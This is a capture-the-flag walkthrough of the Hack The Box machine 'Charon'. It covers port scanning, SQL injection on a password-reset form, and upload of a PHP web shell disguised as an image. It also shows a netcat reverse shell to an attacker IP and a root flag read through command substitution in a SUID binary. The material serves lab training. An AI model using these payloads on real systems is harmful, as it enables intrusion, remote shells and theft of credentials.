 
![logo](/logo.png)

# [Charon- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 07 Jul 2017 as the 22nd machine on HTB,Charon created by [decoder](https://app.hackthebox.com/users/1391) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *exfiltration
###### code-nmap

```code
nmap -sV -sC -oA nmap/charon 10.10.10.31
```

###### Output 

![](/Linux/Linux-Hard/Charon/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/charon 10.10.10.31                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 19:08 EAT
Nmap scan report for 10.10.10.31
Host is up (0.35s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Frozen Yogurt Shop
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.55 seconds
```


looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`.  

port[22]-ssh
port[80]-tcp

when we naviagate to [http://10.10.10.31](http://10.10.10.31)  we find a page of Freeze a Yogurt Shop

![](/Linux/Linux-Hard/Charon/Screenshots/browser.png)

i start `gobuster` to enemerate directories sinces it seems that i can not find anything 

```sh
gobuster dir -u http://10.10.10.31 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -t 50
```

![](/Linux/Linux-Hard/Charon/Screenshots/gobuster.png)

At first glance, it appears that singlepost.php is the correct way in, as the website was modified
from the original pre-built publicly available package to use this PHP file rather than the default
HTML file. The file is also vulnerable to sql injection, however it contains no useful information.

![](/Linux/Linux-Hard/Charon/Screenshots/mixphp.png)

looking a bit further reveals the `cmsdata` directory, which is the correct point of entry. and  `forgot.php`

![](/Linux/Linux-Hard/Charon/Screenshots/forgot.png)

# Exploitation

lets try some common union to see what we can find

```sh
a@b.c' uniOn select 1,2,3,concat(__username_,"@example.com") FROM
supercms.operators limit 1,1 -- -
```

![](/Linux/Linux-Hard/Charon/Screenshots/burp.png)

from the union we get the email address to be ``

![](/Linux/Linux-Hard/Charon/Screenshots/burppasswd.png)

we get a password hash let decode it with [CrackStation](https://crackstation.net/)

![](/Linux/Linux-Hard/Charon/Screenshots/crackstation.png)

now when theb navigate to login so that we can login with the credentials earlier found

![](/Linux/Linux-Hard/Charon/Screenshots/login.png)

when we login we find this

![](/Linux/Linux-Hard/Charon/Screenshots/loggedin.png)

we see something interesting an Upload Image File page

![](/Linux/Linux-Hard/Charon/Screenshots/upload.png)

when we view the page source we find some interesting thing that is hidden

![](/Linux/Linux-Hard/Charon/Screenshots/hidden.png)

decoding it revels the name to be `testfile1` so lets startburp and add it but first we do some configaration on burp so as to allow as to intercept the response to.

![](/Linux/Linux-Hard/Charon/Screenshots/burpconfig.png)


we can then `foward` then turn intercept off

![](/Linux/Linux-Hard/Charon/Screenshots/burpreq.png)

![](/Linux/Linux-Hard/Charon/Screenshots/nametype.png)

now we upload a php with an extenstion of `jpg`

```sh
GIF8
<?php system($_GET["cmd"]); ?>
```

![](/Linux/Linux-Hard/Charon/Screenshots/binary.png)

it then pass the filtration

![](/Linux/Linux-Hard/Charon/Screenshots/filters.png)

so by checking where it uploaded it we find that we can execute bash commands

![](/Linux/Linux-Hard/Charon/Screenshots/ls.png)

we execute this but first we have to make a Listner 

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 1337 >/tmp/f
```

![](/Linux/Linux-Hard/Charon/Screenshots/intercept.png)

and just like that we get shell.

![](/Linux/Linux-Hard/Charon/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Hard/Charon/Screenshots/stty.png)

we try to get the `user flag` but we are uable but we see some interesting files their

![](/Linux/Linux-Hard/Charon/Screenshots/decoder.png)

so we copy the two files into out local host so that we can be able to decrypt it with [RsaCtfTool](https://github.com/RsaCtfTool/RsaCtfTool) so first we create an `env`

```sh
virtualenv venv 
source venv/bin/activate
```

```sh
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
sudo apt-get install libgmp3-dev libmpc-dev
cd RsaCtfTool
pip3 install -r "requirements.txt"
```

```sh
RsaCtfTool/RsaCtfTool.py --publickey decoder.pub --decryptfile pass.crypt 
```

![](/Linux/Linux-Hard/Charon/Screenshots/decoderpass.png)

You can get the `user flag`  now.

![](/Linux/Linux-Hard/Charon/Screenshots/catuser.png)

# Privillage Escalation

we copy `LinEnum` to the machine so that we can see what is vulnerable.

```sh
scp LinEnum.sh decoder@10.10.10.31:
```

![](/Linux/Linux-Hard/Charon/Screenshots/Linenum.png)

![](/Linux/Linux-Hard/Charon/Screenshots/runLinEnum.png)

we find an SUID which seem intresting lets look at it.

![](/Linux/Linux-Hard/Charon/Screenshots/suid.png)

The binary accepts one argument. By running `strings` against the file, it appears that there is an argument whitelist, and the only allowed argument is `/bin/ls`.

![](/Linux/Linux-Hard/Charon/Screenshots/binsh.png)

There are several methods to bypass the argument whitelist. By entering supershell `/bin/ls` then
using the keyboard shortcut `CTRL+M` to create a newline, and then on the second line entering
`cat /root/root.txt`. The other method is to trail /`bin/ls` with `$(cat /root/root.txt)`

```sh
supershell '/bin/ls$(cat /root/root.txt)'
```

then we get `root flag`

![](/Linux/Linux-Hard/Charon/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------

